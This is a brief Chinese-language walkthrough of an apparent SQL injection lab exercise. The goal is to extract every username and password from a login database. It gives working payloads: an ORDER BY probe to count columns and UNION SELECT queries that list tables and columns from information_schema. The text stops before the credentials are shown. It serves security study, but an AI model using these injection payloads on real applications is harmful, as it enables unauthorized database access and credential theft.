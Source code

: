 该应用程序具有登录功能，数据库包含一个保存用户名和密码的表。您需要确定此表的名称及其包含的列，然后检索表的内容以获取所有用户的用户名和密码。



先判断列数 `'order by 3--`的时候报错，说明有两列



`'UNION SELECT table_name,NULL FROM information_schema.tables-- `

![image-20240909204011446](./imgs/image-20240909204011446.png)

`'UNION SELECT column_name,NULL FROM information_schema.columns where table_name='users_muxymp'--`

![image-20240909204402227](./imgs/image-20240909204402227.png)
